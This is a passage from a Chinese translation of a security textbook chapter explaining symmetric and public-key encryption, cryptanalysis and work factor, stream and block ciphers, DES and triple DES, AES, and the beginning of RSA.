此过程类似于在房屋中使用批量生产的锁。作为房主，你将付出高昂代价与某人签约，为你的房子专门发明和制造一把锁。此外，你不会知道某个发明家的锁是否真正坚固，或者它与其他发明家的锁相比如何。更好的解决方案是让几家知名、受人尊敬的公司生产标准锁，它们根据（物理）钥匙有所不同。然后，你和你的邻居可能拥有相同品牌和款式的锁，但你的钥匙只能打开你的锁。同样，让每个人使用几种经过充分研究的加密算法是有用的，但不同的密钥可以防止他人闯入你试图保护的数据。

有时加密和解密密钥是相同的，因此 `P = D(K, E(K, P))`，意味着同一个密钥 `K` 既用于加密消息，稍后又用于解密它。这种形式称为**对称**或**单密钥**或**秘密**密钥加密，因为 `D` 和 `E` 是镜像过程。作为一个简单的例子，加密算法可能是将每个明文字母在字母表中向前移动 `n` 个位置。对于 `n = 1`，A 变为 b，B 变为 c，…… P 变为 q，…… Z 变为 a，所以我们说密钥值是 `n`，加密时向前移动 `n` 个位置，解密时向后移动。（你可能会注意到我们用大写字母书写明文，用相应的小写字母书写密文；密码学家有时使用该约定来帮助他们区分两者。）

***

**对称加密：一个密钥用于加密和解密。**

***

在其他时候，加密和解密密钥成对出现。然后，解密密钥 `K[D]` 反转密钥 `K[E]` 的加密，使得 `P = D(K[D], E(K[E], P))`。这种形式的加密算法称为**非对称**或**公钥**加密，因为将 `C` 转换回 `P` 涉及的步骤和密钥与 `E` 的步骤和密钥不同。对称加密和非对称加密的区别如图 2-19 所示。



**图 2-19** 对称和非对称加密

***

**非对称加密：一个密钥加密，另一个不同的密钥解密。**

***

密钥使我们在使用加密方案时具有灵活性。仅通过更改密钥，我们就可以创建一条明文消息的不同加密形式。此外，使用密钥提供了额外的安全性。如果加密算法落入拦截者手中，未来的消息仍可保密，因为拦截者将不知道密钥值。侧边栏 2-14 描述了英国在二战期间如何处理书面密钥和代码。不需要使用密钥的加密方案称为**无密钥密码**。

***

#### 侧边栏 2-14 丝绸代码

Leo Marks [MAR98] 描述了他在二战期间在英国作为密码制作者的生活。也就是说，英国雇佣 Marks 和其他人设计可供间谍和前线士兵使用的代码。在早期，加密方案依赖于为每个间谍专门写的诗，并依赖间谍正确记忆和回忆诗歌的能力。

Marks 通过引入一种印在丝绸碎片上的编码方案降低了出错风险。藏在衣服下的丝绸在间谍被拍身搜查时无法被察觉。而且，与纸不同，丝绸燃烧得快且彻底，因此间谍可以销毁罪证，也确保敌人无法获得宝贵代码的任何碎片。当上级追问为什么英国要用稀缺的丝绸（战时降落伞等必需品也需要丝绸）做代码时，Marks 说这是“在丝绸和氰化物之间做选择”。

***

加密的历史很迷人；David Kahn 的书 [KAH96] 有详细记录。Claude Shannon 被认为是现代密码学之父，因为他在数字计算机诞生之际，为信息安全奠定了正式的数学基础，并阐述了安全密码学的几个原则 [SHA49]。加密已被用于几个世纪以保护外交和军事通信，有时并不完全成功。**密码学**一词指的是使用加密来隐藏文本的实践。**密码分析师**研究加密和加密消息，希望找到隐藏的含义。密码分析师也可能从事防御性工作，探测代码和密码，看它们是否足够可靠以充分保护数据。

密码学家和密码分析师都试图将编码材料还原为其原始形式。通常，密码学家代表合法的发送者或接收者工作，而密码分析师代表未经授权的拦截者工作。最后，**密码学**是对加密和解密的研究与学习；它包括密码术和密码分析。

### 密码分析

密码分析师的任务是**破解**加密。也就是说，密码分析师试图推导密文消息的原始含义。更理想的是，密码分析师希望确定是哪种解密算法，理想情况下是哪个密钥，与加密算法匹配，从而能够破解以相同方式编码的其他消息。

例如，假设两个国家处于战争状态，第一个国家拦截了第二个国家的加密消息。第一个国家的密码分析师想要破译特定消息，以预判第二个国家的行动和资源。但更好的情况是发现实际的解密方法；这样第一个国家就可以破解第二个国家发送的*所有*消息的加密。

分析师使用各种信息：加密消息、已知加密算法、拦截的明文、已知或怀疑存在于密文消息中的数据项、数学或统计工具和技术、语言特性，以及大量的独创性和运气。每一条证据都能提供线索，分析师将线索拼凑在一起，试图在加密如何完成的背景下，形成关于消息含义的更大图景。请记住，没有规则。拦截者可以使用任何可用的手段来探寻消息的含义。

#### 工作因子

当给定足够的时间和数据，分析师可以确定算法时，该加密算法被称为**可破解的**。然而，理论上可破解的算法在实际上可能难以尝试破解。为了理解原因，考虑一条仅用大写字母表示的 25 字符消息。给定的密码方案可能有 26²⁵（约 10³⁵）种可能的解密，因此任务是从 26²⁵ 种可能性中选出正确的一个。如果你的计算机每秒能执行约 10¹⁰ 次操作，找到这个解密将需要约 10²⁵ 秒，或大约 10¹⁷ 年。在这种情况下，虽然理论上我们可以生成解决方案，但通过检查所有可能性来确定解密算法，在当前技术下可视为不可行而忽略不计。

破解加密的难度称为其**工作因子**。同样，物理锁的类比可能有助于理解。正如你所知，物理钥匙有缺口或其他不规则性，缺口导致锁内的销钉移动，从而打开锁。一些简单的锁，如行李箱配套的锁，只有一个缺口，因此这些锁通常只需一根弯曲的铁丝即可打开；更糟糕的是，一些制造商只生产少数（有时甚至只有一种！）不同的内部销钉设计；你可能只需一串几把钥匙就能打开任何此类锁。显然这些锁只是装饰性的。

普通家用锁有五或六个缺口，每个缺口可以有十种深度中的任意一种。打开这种锁需要找到正确的缺口深度组合，可能多达一百万种可能性，因此携带那么多钥匙的钥匙圈是不可行的。即使理论上有人可以通过尝试所有可能的钥匙来打开这些锁，但实际上可能性的数量是令人望而却步的。我们说，在没有合适钥匙的情况下打开这些锁的工作因子足够大，足以阻止大多数攻击。密码学也是如此：如果在不知道加密密钥的情况下解密所需的工作量大于加密数据的价值，则该加密是足够的。

***

**工作因子：破解加密（或发起成功攻击）所需的工作量**

***

考虑加密算法的可破解性时，必须解决其他两个重要问题。首先，不能指望密码分析师只尝试困难、漫长的方法。在刚才的例子中，明显的解密可能需要 26²⁵ 次机器操作，但一种更巧妙的方法可能只需要 10¹⁵ 次操作。以每秒 10¹⁰ 次操作的速度，10¹⁵ 次操作只需略多于一天。这种巧妙的方法当然是可行的。事实上，报纸有时会刊登密码谜题，人们仅凭笔和纸就能解开，因此显然存在捷径，可以将我们估算的数年甚至一天的计算机机器时间大幅缩短。报纸游戏给出了关于单词长度和重复字符的提示，所以人们解决的是一个更简单的问题。然而，正如我们所说，密码分析师也会利用其掌握的每一条信息。

我们在本书中研究的一些算法基于已知的“困难”问题，这些问题需要花费不合理的长时间来解决。但密码分析师不一定非要解决底层问题才能破解单条消息的加密。控制使用不当可能会泄露可能的单词或短语，分析师可以利用有根据的猜测结合仔细分析来生成重要消息的全部或大部分内容。或者密码分析师可能雇佣间谍在系统外部完全获取明文；分析师随后可能利用明文和相应密文的配对来推断应用于后续消息的算法或密钥。

***

**在密码分析中没有规则：任何行动都是合法的。**

***

其次，可破解性的估计基于当前技术。自 1950 年以来，计算技术发生了巨大进步。1940 年代不可行的事情在 1950 年代变得可能，此后每个十年都带来了更大的改进。一个被称为“摩尔定律”的推测断言处理器速度每 1.5 年翻一番，这一推测已成立三十多年。我们不敢仅因为某算法无法用*当前*技术破解，或者更糟，因为它*尚未*被破解，就宣称其安全。

在本书中，我们会写某事是不可能的；例如，没有相应的密钥和算法，不可能从密文获得明文。请理解，在密码学中，很少有事情是真正不可能的：可能是不可行或难度过高，但绝非不可能。

### 对称与非对称加密系统

回顾一下，加密的两种基本类型是对称（也称为“密钥”）和非对称（也称为“公钥”）。对称算法使用一个密钥，该密钥同时用于加密和解密。通常，解密算法与加密算法密切相关，本质上是逆向运行加密过程。

对称系统为其用户提供双向通道：A 和 B 共享一个密钥，他们都可以加密信息发送给对方，也可以解密来自对方的信息。只要密钥保持秘密，该系统还提供**真实性**，即证明接收到的消息不是由声称的发送者以外的人伪造的。真实性得到保证是因为只有合法发送者能产生使用共享密钥能正确解密的消息。

对称性是此类加密的主要优势，但也带来了一个问题：两个用户 A 和 B 如何获取他们的共享密钥？且只有 A 和 B 能将该密钥用于其加密通信。如果 A 想与另一用户 C 共享加密通信，A 和 C 需要一个不同的共享密钥。密钥管理是使用对称加密的主要难点。通常，想要成对通信的 *n* 个用户需要 *n* \* (*n* – 1)/2 个密钥。换句话说，所需密钥数量的增长率与用户数量的*平方*成正比！因此，对称加密系统的一个特性是它们需要一种**密钥分发**手段。

另一方面，非对称或公钥系统通常拥有精确匹配的密钥对。密钥是成对生成的，或者一个是从另一个数学推导而来的。因此，一个过程会将两个密钥作为一组计算出来。

但对于这两种加密方式，密钥都必须妥善保管。一旦对称密钥或私钥为外人所知，所有过去或未来的消息都可被外人解密（从而被读取或修改）。所以，对于所有加密算法，**密钥管理**都是一个主要问题。它涉及密钥的存储、保护和激活。

非对称系统在密钥管理方面表现出色。凭借公钥方法的本质，你可以在电子邮件中发送公钥，或将其发布在公共目录中。只有相应的私钥（推测未被泄露）才能解密用公钥加密的内容。

### 流密码与分组密码

加密算法的最后一个特征在于待隐藏数据的性质。假设你正从卫星流式传输视频（如电影）。该流可能以突发形式到达，具体取决于卫星负载以及发送方和接收方的操作速度等因素。对于此类应用，可使用所谓的**流加密**，即分别加密数据流的每一位（或每一字节）。图 2-20 展示了流加密模型。注意输入符号是逐个转换的。流密码的优势在于可立即应用于准备好传输的任何数据项。但大多数加密算法涉及复杂变换；逐位或逐少数位进行这些变换代价高昂。



**图 2-20** 流加密

为解决此问题并增加密码分析师破解难度，可使用分组密码。**分组密码**将一组明文符号作为单个分组进行加密。分组密码算法一次性对一定量的明文数据执行操作。就像一次切出 24 块饼干的机器一样，这些算法通过一次性处理大量数据来利用规模经济。此类算法的分组大小通常为 64、128、256 位或更多。分组大小无需与字符大小有任何特定关系。分组密码作用于明文分组并生成密文分组，如图 2-21 所示。图中中央方框代表加密机器：前一个明文对已转换为 `po`，当前正在转换的是 `IH`，机器即将转换 `ES`。



**图 2-21** 分组密码

***

**流密码一次加密一位或一字节；分组密码将固定数量的位作为单个块进行加密。**

***

表 2-10 列出了流加密和分组加密算法的优缺点。



**表 2-10** 流与分组加密算法

了解不同加密算法的特征后，我们现在转向一些广泛使用的加密算法。我们将介绍每种算法的工作原理、历史背景和动机，以及优缺点。我们通过名称标识这些算法，因为这些名称出现在通俗文献中。我们还将在第 12 章介绍其他对称算法。当然你应该认识到，这些只是流行算法的示例；随着时间的推移，这些算法可能被其他算法取代。在很大程度上，密码学已变成即插即用，意味着开发者可在应用中用同类型且特性相似的另一算法替换一种算法。这样，密码学领域的进步不要求重写所有使用密码学的应用。

#### DES：数据加密标准

数据加密标准（DES）\[NBS77\] 是为美国政府开发的系统，旨在供公众使用。标准组织已正式接受它作为美国及国外的加密标准。此外，许多软硬件系统均采用 DES 设计。多年来，它是保护财务、个人和企业数据的首选算法；然而，随着其老化，研究人员越来越多地质疑其充分性。

##### DES 算法概述

DES 算法\[NBS77\] 由 IBM 在 20 世纪 70 年代为美国国家标准技术研究院（NIST，当时称国家标准局 NBS）开发。DES 是加密两大基本构建块——替换和置换——的精心复杂组合。该算法通过重复应用这两种技术（一层叠一层，共 16 轮）获得强度。追踪单个位通过 16 轮替换和置换的极高复杂度，迄今阻止了公开研究人员识别出该算法的少数几个一般性质以外的更多性质。

算法首先以 64 位分组加密明文。密钥长 64 位，但实际可为任意 56 位数字。（额外的 8 位常用作校验位，但在正常实现中不影响加密。因此我们称 DES 使用强度为 56 位的密钥。）用户可在对旧密钥安全性存疑时随时选用新密钥。

***

**DES 使用 56 位密钥加密 64 位分组。**

***

DES 仅对最长 64 位的二进制数据使用标准算术和逻辑运算，因此适合在大多数现代计算机上用软件实现。DES 加密涉及 16 次迭代，每次迭代采用替换位块（称为替换步骤）、打乱位（称为置换步骤）以及混入密钥位（称为密钥变换）。尽管复杂，但该过程由表驱动且重复，适合在单一用途芯片上实现。事实上，市场上有几种此类芯片，可作为使用 DES 加密的设备应用中的基本组件。

###### 双重 DES 与三重 DES

众所周知，过去几十年算力快速增长，并有望继续如此。因此，DES 的 56 位密钥长度让一些人感到不够安心。自 20 世纪 70 年代以来，研究人员和从业者一直对更长密钥版本的 DES 感兴趣。但我们面临一个问题：DES 算法设计固定为 56 位密钥。

####### 双重 DES

为解决这一顾虑，一些研究人员建议使用双重加密以获得更高保密性。双重加密工作方式如下。取两个密钥 `k[1]` 和 `k[2]`，执行两层加密：`E(k[2], E(k[1], m))`。理论上，此法应使破解难度成倍增加，正如两把锁比一把锁更难撬开。

遗憾的是，这一假设是错误的。Ralph Merkle 和 Martin Hellman [MER81] 表明，双重加密与单重加密相比几乎没有改进：使用两个不同的 56 位密钥进行两次加密，其工作量因子相当于使用一个 57 位密钥进行一次加密。因此，对于试图推断一段密文是在哪个密钥（或密钥组合）下加密的攻击者来说，双重加密仅增加了极少量的额外工作量。正如我们即将描述的，某些 56 位 DES 密钥已在短短几天内被破解；两倍的天数仍然是天数，而人们原本希望第二次加密能增加数月甚至数年的工作量。唉，双重 DES 实质上并未增加任何安全性。

####### 三重 DES

然而，一个简单的技巧确实能增强 DES 的安全性。使用三个密钥可显著增加强度。

所谓的**三重 DES**过程为 `C = E(k[3], E(k[2], E(k[1], m)))`。即先用一个密钥加密，再用第二个密钥加密，最后用第三个密钥加密。此过程提供的强度大致相当于 112 位密钥（因为双重 DES 攻击破坏了三个密钥中其中一个的强度，但对第三个密钥无效）。

三重 DES 的一个微小变体，有些人也令人困惑地称其为三重 DES，其形式为 `C = E(k[1], D(k[2], E(k[1], m)))`。即先用一个密钥加密，再用第二个密钥解密，最后再用第一个密钥加密。此版本仅需两个密钥。（第二步的解密操作也使该过程适用于单密钥的单重加密：解密抵消了第一次加密，净结果相当于一次加密。加密-解密-加密的形式很方便，因为同一个算法既能产生传统单密钥 DES 的结果，也能产生更安全的双密钥方法的结果。）这种两密钥、三步骤的版本容易受到另一种巧妙攻击，因此其强度仅评级为约 80 位。即便如此，以当前硬件条件，80 位已超出合理的破解能力范围。


总之，普通 DES 的密钥空间为 56 位，双重 DES 几乎无改进，但双密钥三重 DES 提供了 80 位的有效长度，三密钥三重 DES 则提供了 112 位的强度。请记住为何我们如此执着于密钥大小：如果没有其他成功途径，攻击者总可以尝试所有可能的密钥。密钥越长，意味着这种攻击要取得成果需要多得多的工作量，每增加一位密钥长度，工作量因子就会翻倍。现在，DES 诞生约半个世纪后，56 位密钥对于任何严肃的机密保护都已不再足够，但 80 位和 112 位的有效密钥长度提供了合理的安全性。我们在表 2-11 中总结了这些 DES 形式。



**表 2-11** DES 的形式

### DES 的安全性

自首次公布以来，DES 就备受争议。许多研究人员质疑其提供的安全性。由于其与美国政府、特别是美国国家安全局（NSA）有关联——NSA 在 IBM 的提案与 NBS 实际发布的标准之间做了一些未加解释的修改——一些人怀疑该算法被以某种方式削弱了，以便政府窥探加密数据。许多争议见诸公开文献，但 DES 的某些特性既未被设计者披露，也未被外部分析师推断出来。

Whitfield Diffie 和 Martin Hellman [DIF77] 于 1977 年主张 56 位密钥太短。1977 年，在当时的计算机上测试所有 2⁵⁶（约 10¹⁵）个密钥是难以承受的。但他们论证道，随着时间的推移，计算机会变得更强大，而 DES 算法保持不变；最终，计算机的速度将超过 DES 的强度。大约 20 年后，这一预言成真。1997 年，研究人员利用 3,500 多台并行联网的机器，在四个月的工作量内推断出了一个 DES 密钥。1998 年，美国研究人员花费约 20 万美元制造了一台专用的“DES 破解机”，能在约四天内找到一个 DES 密钥，后来这一结果被提升至几小时 [EFF98]。

这是否意味着 DES 不安全？不，并非完全如此。目前尚无人展示出 DES 算法本身存在严重缺陷。1997 年的攻击需要大量协作，1998 年的机器造价颇高。但即使传统 DES 受到攻击，三重 DES 仍远超这些攻击的能力范围。请记住指数增长的影响：为简化起见，假设单密钥 DES 可在一小时内被破解。简单的双密钥版本则可在两小时内被破解。但 2⁸⁰/2⁵⁶ = 2²⁴，超过 16,700,000，意味着破解双密钥三重 DES 加密需要 1600 万小时，近 2000 年，而三密钥版本所需时间则长得多。

尽管如此，DES 固定的 56 位密钥长度和固定的迭代次数的基本结构，凸显了对一种新的、更强的、更灵活算法的需求。1995 年，NIST 开始寻找一种新的强加密算法。该搜索的结果成为了高级加密标准，即 AES。

### AES：高级加密标准

注：原文为 "Advanced Encryption System"，标准官方名称为 "Advanced Encryption Standard"。

经过公开竞赛和评审，NIST 选定了一种名为 Rijndael 的算法作为新的高级加密标准；Rijndael 现在更广为人知的名字是 AES。AES 于 2001 年 12 月被采纳供美国政府使用，并成为联邦信息处理标准 197 [NIS01]。在未来数年乃至数十年，AES 很可能将成为商业级对称算法的首选。让我们更仔细地了解它。

#### Rijndael 概述

**Rijndael** 是一种快速算法，可轻松在简单的处理器上实现。尽管它有坚实的数学基础，但主要使用替换、置换、移位、异或和加法运算。与 DES 一样，AES 使用重复循环。

对于 128、192 和 256 位的密钥，分别有 10、12 或 14 个循环。在 Rijndael 中，这些循环称为“轮”。每轮包含四个步骤，用于替换和打乱比特。密钥中的比特频繁地与中间结果比特组合，因此密钥比特也在结果中得到了良好的扩散。此外，这四个步骤极其快速。AES 算法如图 2-22 所示。



**图 2-22** AES 加密算法

#### 算法强度

DES 和 AES 的特性及表观强度在表 2-12 中进行了比较。当然请记住，这些强度数值仅在实现和使用健壮的情况下适用；如果使用的弱点让外部人员能够确定加密数据的密钥属性，强算法也会失去强度。



**表 2-12** DES 与 AES 的比较

此外，轮数可以自然地扩展。DES 算法被精确定义为 16 轮；增加轮数将需要对算法进行大量重新定义。AES 的内部结构对轮数没有先验限制。如果密码分析师日后断定 10、12 或 14 轮太低，改进算法所需的唯一更改就是修改重复循环的限制。

一个信心的标志是，美国政府已批准 AES 用于保护“机密”和“绝密”级机密文件。这是美国历史上首次批准使用一种源自政府之外（而且还是美国之外）的商业算法来加密机密数据。

然而，我们不能固步自封。目前没人能预测密码分析师未来可能会发现什么局限性。幸运的是，才华横溢的密码学家仍在继续研究更强大的算法，以便在 AES 过时时能够取而代之。目前，AES 似乎比 DES 有了显著改进，且如有必要，可通过自然的方式对其进行改进。DES 仍被广泛使用，但 AES 也已广泛采用，尤其是在新应用中。

### 公钥密码学

到目前为止，我们从让发送方易于加密（使加密快速简便）以及让接收方易于解密但入侵者难以解密的角度，审视了加密算法。但这种将明文转换为密文的功能性视角只是全貌的一部分。我们还必须弄清楚如何分发加密密钥。我们已经注意到密钥在阻止入侵者方面非常有用，但密钥必须保持秘密才能有效。我们迄今为止介绍的加密算法称为**对称**或**密钥**算法。两种最广泛使用的对称算法 DES 和 AES 操作方式相似：两个用户拥有同一密钥的副本。一个用户使用该算法在密钥下加密某些明文，另一个用户使用同一密钥在该算法的逆运算下解密密文。该问题的关键在于，加密的所有威力都取决于密钥的保密性。

1976 年，Whitfield Diffie 和 Martin Hellman [[DIF76]](#bib01.html#bib_157) 发明了公钥密码学，这是一种新型加密。在公钥加密系统中，每个用户有两个密钥，其中一个不必保密。尽管这违反直觉，但密钥的公开性实际上并不损害系统的保密性。相反，公钥加密的基础是允许密钥公开，但保持解密技术的秘密。公钥密码系统通过使用两个密钥来实现这一目标：一个用于加密，另一个用于解密。虽然这些密钥是以数学相关的成对形式生成的，但外部人员实际上无法利用一个密钥推导出另一个。

在本节中，我们将探讨允许密钥公开但仍能保护消息的方法。我们还将重点介绍 RSA 算法，这是一种流行的商业级公钥系统。其他算法，如椭圆曲线密码系统 [[MIL85]](#bib01.html#bib_409)、[[KOB87]](#bib01.html#bib_339) 和 El Gamal 算法 [[ELG85]](#bib01.html#bib_180)（我们将在第 12 章中介绍），运作方式类似（尽管底层数学原理截然不同）。我们专注于 RSA，因为许多应用都在使用它。我们还将介绍一种数学方案，两个用户可以通过该方案共同构建一个秘密加密密钥，而无需任何预先共享的秘密。

#### 动机

为什么公开密钥是可取的？在传统的对称密钥系统中，每一对用户都需要一个单独的密钥。但使用公钥系统时，任何人都可以使用单个公钥向用户发送秘密消息，且该消息能得到充分保护，防止被拦截者读取。让我们探究一下原因。

回顾一下，一般而言，一个 `n` 用户系统需要 `n * (n – 1)/2` 个密钥，每个用户必须跟踪并记住与其想要通信的每个其他用户的密钥。随着用户数量的增长，密钥数量急剧增加，如图 2-23 所示。确定并分发这些密钥是一个问题。更严重的问题是维护已分发密钥的安全性——我们不能指望用户记住这么多密钥。更糟的是，一个用户的密钥丢失或泄露，都需要该用户与其每个通信对象重新建立新的密钥对。



**图 2-23** 密钥数量的爆炸式增长

#### 特性

我们可以通过使用公钥方法来减少密钥激增的问题。在**公钥**或**非对称加密系统**中，每个用户有两个密钥：一个**公钥**和一个**私钥**。用户可以自由发布公钥，因为每个密钥只执行加密或解密，而不能两者兼顾。这些密钥作为逆运算运作，意味着一个密钥可以撤销另一个密钥提供的加密。但从一个密钥推导出另一个密钥实际上是不可能的。

为了了解其原理，设 `k_PRIV` 为用户的私钥，`k_PUB` 为对应的公钥。然后，使用公钥加密的明文通过应用私钥进行解密；我们将这种关系表示为

`P = D(k_PRIV, E(k_PUB, P))`

即，用户可以用私钥解密他人用对应公钥加密的内容。此外，对于某些公钥加密算法（包括 RSA），我们有如下关系：

`P = D(k_PUB, E(k_PRIV, P))`

换句话说，用户可以用私钥加密消息，而该消息只能用对应的公钥揭示。

这两个特性告诉我们，公钥和私钥可以按任意顺序应用。特别是，解密函数 `D` 可以应用于任何参数，因此我们可以先解密后加密。使用传统加密时，我们很少考虑在加密*前*解密。但对于公钥，这一概念讲得通，它仅意味着先应用私有变换，再应用公开变换。

我们已经注意到，对称加密的一个主要问题是单个用户必须存储和跟踪的密钥数量巨大。使用公钥时，每个用户只需两个密钥：一个公钥和一个私钥。让我们看看这在所需密钥数量上有什么不同。假设有三个用户 B、C 和 D，他们必须向用户 A 以及彼此之间传递受保护的消息。由于每对不同的用户都需要一个密钥，每个用户将需要三个不同的密钥；例如，A 需要一个用于 B 的密钥、一个用于 C 的密钥和一个用于 D 的密钥。但使用公钥加密时，B、C 和 D 都可以使用 A 的公钥为 A 加密消息。如果 B 使用 A 的公钥加密了一条消息，C *无法*解密它，即使 C 知道它是用 A 的公钥加密的。例如，两次应用 A 的公钥不会解密该消息。（当然，我们假设 A 的私钥保持秘密。）因此，公钥系统中所需的密钥数量仅为每用户两个。

#### Rivest–Shamir–Adelman (RSA) 算法

**Rivest–Shamir–Adelman (RSA) 密码系统**是一种公钥系统。它基于一个底层的难题，并以其三位发明者（Ronald Rivest、Adi Shamir 和 Leonard Adleman）命名，该算法于 1978 年提出 [[RIV78]](#bib01.html#bib_517)。密码分析师对 RSA 进行了广泛的密码分析，但未发现严重缺陷。

RSA 中使用的两个密钥 `d` 和 `e` 分别用于解密和加密。它们实际上是可互换的：任一密钥均可选为公钥，但一旦选定，另一个必须保持私有。为简化起见，我们称加密密钥为 `e`，解密密钥为 `d`。我们将明文表示为 `P`，其对应的密文表示为 `C`。`C = RSA(P, e)`。此外，由于 RSA 算法的性质，密钥可以按任意顺序应用：

`P = E(D(P)) = D(E(P))`

